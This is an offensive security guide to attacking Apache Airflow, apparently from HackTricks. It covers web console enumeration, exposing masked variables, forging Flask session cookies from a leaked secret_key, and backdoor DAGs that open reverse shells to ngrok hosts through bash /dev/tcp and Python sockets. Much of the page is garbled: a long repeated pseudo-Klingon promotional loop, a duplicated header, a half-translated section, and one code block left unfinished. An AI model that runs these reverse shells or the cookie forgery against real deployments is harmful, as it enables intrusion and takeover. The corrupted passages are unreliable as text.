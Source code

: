 # Apache Airflow Security

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>tlhIngan Hol</strong></a><strong>!</strong></summary>

HackTricks yIqIm:

* **HackTricks** **tlhIngan Hol** **ghItlh** **'ej** **HackTricks** **PDF** **ghItlh** **'ej** **SUBSCRIPTION PLANS** **qaStaHvIS** [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) **chaw'**!
* [**PEASS & HackTricks swag**](https://peass.creator-spring.com) **ghItlh** **'ej** **HackTricks** **PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** [**NFTs**](https://opensea.io/collection/the-peass-family) **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs** **ghItlh** **'ej** **The PEASS Family** **ghItlh** **'ej** **NFTs
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
## Airflow Configuration

Airflow might store **sensitive information** in its configuration or you can find weak configurations in place:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

## Airflow RBAC

Before start attacking Airflow you should understand **how permissions work**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

## Attacks

### Web Console Enumeration

If you have **access to the web console** you might be able to access some or all of the following information:

* **Variables** (Custom sensitive information might be stored here)
* **Connections** (Custom sensitive information might be stored here)
* Access them in `http://<airflow>/connection/list/`
* [**Configuration**](./#airflow-configuration) (Sensitive information like the **`secret_key`** and passwords might be stored here)
* List **users & roles**
* **Code of each DAG** (which might contain interesting info)

### Retrieve Variables Values

Variables can be stored in Airflow so the **DAGs** can **access** their values. It's similar to secrets of other platforms. If you have **enough permissions** you can access them in the GUI in `http://<airflow>/variable/list/`.\
Airflow by default will show the value of the variable in the GUI, however, according to [**this**](https://marclamberti.com/blog/variables-with-apache-airflow/) it's possible to set a **list of variables** whose **value** will appear as **asterisks** in the **GUI**.

![](<../../.gitbook/assets/image (79).png>)

However, these **values** can still be **retrieved** via **CLI** (you need to have DB access), **arbitrary DAG** execution, **API** accessing the variables endpoint (the API needs to be activated), and **even the GUI itself!**\
To access those values from the GUI just **select the variables** you want to access and **click on Actions -> Export**.\
Another way is to perform a **bruteforce** to the **hidden value** using the **search filtering** it until you get it:

![](<../../.gitbook/assets/image (30).png>)

### Privilege Escalation

If the **`expose_config`** configuration is set to **True**, from the **role User** and **upwards** can **read** the **config in the web**. In this config, the **`secret_key`** appears, which means any user with this valid they can **create its own signed cookie to impersonate any other user account**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
### DAG Backdoor (RCE in Airflow worker)

If you have **write access** to the place where the **DAGs are saved**, you can just **create one** that will send you a **reverse shell.**\
Note that this reverse shell is going to be executed inside an **airflow worker container**:

### DAG Backdoor (RCE in Airflow worker)

If you have **write access** to the place where the **DAGs are saved**, you can just **create one** that will send you a **reverse shell.**\
Note that this reverse shell is going to be executed inside an **airflow worker container**:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
### DAG Backdoor (RCE in Airflow scheduler)

**DAG vItlhutlh** (RCE in Airflow scheduler)

**DAG** vItlhutlh **executed in the root of the code** **ghItlh** **scheduler** **executed by the scheduler** **cha'logh** **couple of seconds** **DAG's folder** **ghItlh** **placing**.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
### DAG Creation

If you manage to **compromise a machine inside the DAG cluster**, you can create new **DAGs scripts** in the `dags/` folder and they will be **replicated in the rest of the machines** inside the DAG cluster.

### DAG Code Injection

When you execute a DAG from the GUI you can **pass arguments** to it.\
Therefore, if the DAG is not properly coded it could be **vulnerable to Command Injection.**\
That is what happened in this CVE: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

All you need to know to **start looking for command injections in DAGs** is that **parameters** are **accessed** with the code **`dag_run.conf.get("param_name")`**.

Moreover, the same vulnerability might occur with **variables** (note that with enough privileges you could **control the value of the variables** in the GUI). Variables are **accessed with**:

```
dag_run.conf.get("param_name")
```
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
vaj vItlhutlh

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>Learn AWS hacking from zero to hero with</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
